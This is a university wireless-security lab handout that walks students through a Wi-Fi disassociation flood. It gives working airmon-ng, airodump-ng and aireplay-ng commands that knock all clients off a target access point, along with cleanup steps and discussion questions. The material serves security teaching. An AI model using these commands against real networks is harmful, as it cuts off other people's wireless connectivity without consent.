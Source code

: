 
## Module Code: 6CSEF005W  
**Module name:** Wireless Network Security  
**Lab activity:** Disassociation Flood Attack  
**Author:** Dr Ayman El Hajjar  

---

#  Lab Activity: Disassociation Flood Attack

---

###  Objective

In this lab, you will simulate a disassociation flood attack — a type of denial-of-service attack that floods a Wi-Fi AP with disassociation frames. This forces clients to disconnect and can prevent them from maintaining stable connectivity.

---

###  Warning

This is a disruptive wireless attack and must only be used in a sandboxed lab environment.

---

##  Step 1: Identify Target Access Point

Use `airodump-ng` to find the BSSID and channel of your target network:

```bash
sudo airmon-ng start wlan0
sudo airodump-ng wlan0mon
```

---

## Step 2: Launch the Disassociation Attack

Use the provided script:

```bash
sudo ./disassoc_jammer.sh wlan0mon <BSSID>

```

Or run manually:

```bash
sudo aireplay-ng --disassoc 0 -a <BSSID> wlan0mon
```

> This sends a continuous stream of disassoc frames to all clients of the AP.

---

##
 Step 3: Observe Client Impact

On the victim side:
- Check for sudden disconnections
- Reconnection attempts may fail
- Time-sensitive apps (VoIP, games) are interrupted

---

##
 Discussion Points

- How is this attack different from deauthentication?
- Can clients distinguish a real disassoc message from a fake one?
- Are modern systems resistant to this attack?

---

##
 Cleanup

```bash
sudo pkill aireplay-ng
sudo airmon-ng stop wlan0mon
```

---

##  Optional Screenshots

Save in `tasks/img/`:
- `airodump-ng` view of connected clients
- Aireplay-ng disassoc output
- Client system log (if visible)

---

## Summary


| Phase     | Tool               | Purpose                                |
|-----------|--------------------|----------------------------------------|
| Recon     | `airodump-ng`      | Discover target AP                     |
| Attack    | `aireplay-ng`      | Send disassociation frames             |
| Monitor   | Client behaviour   | Observe disconnects and disruptions    |

---
